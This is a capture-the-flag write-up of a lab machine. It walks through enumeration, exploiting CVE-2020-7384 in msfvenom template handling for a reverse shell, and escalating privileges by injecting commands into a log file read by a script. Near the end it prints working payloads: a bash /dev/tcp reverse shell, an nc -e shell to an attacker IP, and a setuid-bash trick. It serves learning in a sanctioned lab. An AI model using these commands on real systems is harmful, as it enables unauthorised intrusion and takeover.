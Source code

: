 # My solution

Start with usual nmap script to enumerate.  
```
nmap -sC -sV -oN nmap-initial 10.10.10.226
```

We see ssh open, a fitered 903 port and a webserver on 5000.  
We start by looking at port 5000. As we see from the nmap outcome, port 5000 hosts a Werkzeug web application which uses python 3.8.5

Run dirbuster: http://10.10.10.226:5000/, not recursive, extentions: py,html, dictionary medium

Run dirbuster: http://10.10.10.226:5000/, not recursive, extentions: py,html, dictionary dirb big.txt

Run wfuzz to find console entry. Namely
```
wfuzz -u http://10.10.10.226:5000/FUZZ/console -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --hc 404
```
No results excepts //console that returns the default page

Ideas:
1. May contain sensitive information ?
http://10.10.10.226:5000/static/hacker.css
2. fuzz url to find console 
e.g. http://10.10.10.226:5000/$FUZZ$/console
3.  Acces /console or trigger internal server error to make the console show up
https://medium.com/swlh/hacking-flask-applications-939eae4bffed

The more promising so far is tryng to trigger an internal server error.

### Path 1: Trigger internal state 

1. Change values of os in the payload field  
Since the user is limited to select the values linus,windows or android,  the back end may give the selection of one of this 3 possibilities for granted. We thus try to modify the http payload with Burp, hoping to cause an internal error in the server.  
We tried with names such as 'lll' or also special charachters as \',\",\*. Invalid os is returned by the back end.  
2. Trigger internal state error by using a malformed msfvenom template file  
Did not yield to any results

### Path 2: Command injection in msfvenom template file
While googling for information regarding the template file and msfvenom, we run into the CVE-2020-7384: Malicious user may upload a malicious template file in msfvenom which would trigger code execution on the target machine.  
Metasploit created a module for this vulnerability as we can see from the metasploit github page: https://github.com/rapid7/metasploit-framework/pull/14331.  

We thus use metasploit to exploit the vulnerability.  
We select the module, modify the options and we run the exlpoit. This will generate the apk file containing our command injection that will be executed by msfvenom on the target machine.  
We start a exploit/multi/handler on our host mahcine and upload the generated apk file in the specific form in the web server. The os which has to be selected is android, the ip can be an arbitrary one instead.  

Once we press *generate* a reverse shell will be started on the metasploit handler instance.  
In order to have a nicer shell, we can try to upgrade from a netcat to meterpreter shell.  
We use the module multi/manage/shell_to_meterpreter and get a meterpreter shell. The user flag is under /home/kid.  

We now want to escalate the privileges  

We see a scanlosers.sh in the /home/pwn directory that we can read. After a quick analysis of the file it is possible to see that the file /home/kid/logs/hackers is used to retrieve inputs to feed to scanlosers.sh.  
Given that we (as kid) own the the file 'hackers', we may inject some command in the file and hope that it will be executed by the pwn user.  
We can confirm that scanlosers.sh is in action by writing to the 'hackers' file. As we can see, the file get emptied immediately.  
We can easily execute command in scanlosers.sh by using nested commands. Namely
```
echo 'ciao1 ciao2 $(/usr/bin/ping 10.10.14.20)' >> hackers
```
We receive the ping in the host machine, thus confirming the code injection.  

```
echo 'ciao ciao $(cp /bin/bash /home/pwn/bash; chmod +s /home/pwn/bash)' >> /home/kid/logs/hackers
echo 'ciao ciao $( bash -i >& /dev/tcp/10.10.14.20/4449 0>&1)' >> /home/kid/logs/hackers
echo 'ciao ciao $(nc -e /bin/sh 10.10.14.20 4242)' >> /home/kid/logs/hackers
```

```
./bash -p
```

We are now the user pwn.  
We set up the ssh keys to enter through ssh and have a more stable shell. We can the procede to root the box.
